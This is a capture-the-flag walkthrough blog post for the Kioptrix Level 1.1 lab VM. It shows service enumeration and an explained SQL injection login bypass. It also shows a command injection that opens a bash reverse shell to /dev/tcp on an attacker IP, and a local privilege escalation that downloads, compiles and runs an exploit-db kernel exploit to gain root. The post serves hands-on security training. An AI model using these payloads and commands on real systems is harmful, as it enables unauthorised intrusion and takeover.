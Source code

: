 ```yaml
---
layout: blog_item
title:  "Kioptrix Level 1.1 Walkthrough"
date:   2013-12-20 14:00:10
author: Arr0way
description: 'Kioptrix Level 1.1 Walkthrough, CTF solution for Kioptrix Level 1.1'
categories: [walkthroughs]
tags:
- Kioptrix
---
```


<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Coffee Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee"></i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.

## Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 22</code></p></pc>
           </td>
           <td>
               <pc><p>SSH</p></pc>
           </td>
           <td>
               <pc><p>OpenSSH 3.9p1 (protocol 1.99)</p></pc>
           </td>
        </tr>
        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.0.52 ((CentOS))</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 111</code></p></pc>
           </td>
           <td>
              <pc><p>RPC Bind</p></pc>
           </td>
           <td>
               <pc><p>N/A</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 443</code></p></pc>
           </td>
           <td>
              <pc><p>HTTPS</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.0.52 ((CentOS))</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 631</code></p></pc>
           </td>
           <td>
              <pc><p>CUPS</p></pc>
           </td>
           <td>
               <pc><p>CUPS 1.1</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 946</code></p></pc>
           </td>
           <td>
              <pc><p>RPC</p></pc>
           </td>
           <td>
               <pc><p>RPC</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 3306</code></p></pc>
           </td>
           <td>
              <pc><p>MySQL</p></pc>
           </td>
           <td>
               <pc><p>MySQL (unauthorized)</p></pc>
           </td>
        </tr>

      </tbody>

</table>
</div>


## Web Application Investigation

The web form <code>/index.php</code> was vulnerable to SQL injection, entering the username <code>admin</code> and the password <code>' or '1'=' </code> successfully bypassed auth.  


![SQL Injection Auth Bypass](/img/blog/kioptrix/sql-injection-1-1.png)


<div class="note info">
  <h5>SQL Injection - Why does ' or '1'='1 work ?</h5>
  <p>

  The web application is expecting the SQL query:

  <code>$query = "SELECT * FROM users WHERE username = 'admin' AND password='blah'";</code>

  Entering the above <b>injects</b> the statement after the <code>password='blah'</code> and before the closing <code>";</code>, the entire sql injection query looks like:

  <code>$query = "SELECT * FROM users WHERE username = 'admin' AND password=' or '1'='1";"</code>

  <code>1 = 1</code> will always be <code>1</code>, thus the statement will return true, allowing an attacker to authenticate as admin. The above injection statement correctly closes the sql syntax, however it is possible to comment out the rest of the sql statement using: <code> -- -</code>

  </p>
</div>

![Command Injection](/img/blog/kioptrix/command-injection.png)

The above authentication bypass exposed a web form vulnerable to <b>command injection</b>, the form filtering only checks for the presence of the ping command with no filtering to prevent an attacker tacking a comment on the end using <code>; insert-command-here</code>.

## Non privileged shell

A non privileged reverse shell was obtained using:

{% highlight bash %}

ping google.com; bash -i >& /dev/tcp/192.168.221.139/443 0>&1

{% endhighlight %}

{% highlight bash %}
[root:~]# nc -n -v -l -p 443
listening on [any] 443 ...
connect to [192.168.221.139] from (UNKNOWN) [192.168.221.157] 32770
bash: no job control in this shell
bash-3.00$ id
uid=48(apache) gid=48(apache) groups=48(apache)
bash-3.00$
{% endhighlight %}

## Local privilege Escalation


{% highlight bash %}
bash-3.00$ uname -ar
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
bash-3.00$ cd /tmp
bash-3.00$ wget https://www.exploit-db.com/download/9545 --no-check-certificate
--02:27:58--  https://www.exploit-db.com/download/9545
           => `9545'
Resolving www.exploit-db.com... 192.124.249.8
Connecting to www.exploit-db.com|192.124.249.8|:443... connected.
WARNING: Certificate verification error for www.exploit-db.com: unable to get local issuer certificate
WARNING: certificate common name `*.mycloudproxy.com' doesn't match requested host name `www.exploit-db.com'.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [application/txt]

    0K .........                                                30.10 MB/s

02:27:58 (30.10 MB/s) - `9545' saved [9785]

bash-3.00$ mv 9545 sock_sendpage.c                             
bash-3.00$ gcc -o sock_sendpage sock_sendpage.c
bash-3.00$ ./sock_sendpage
sh: no job control in this shell
sh-3.00# id
uid=0(root) gid=0(root) groups=48(apache)
sh-3.00#
{% endhighlight %}

Thanks for the VM :)
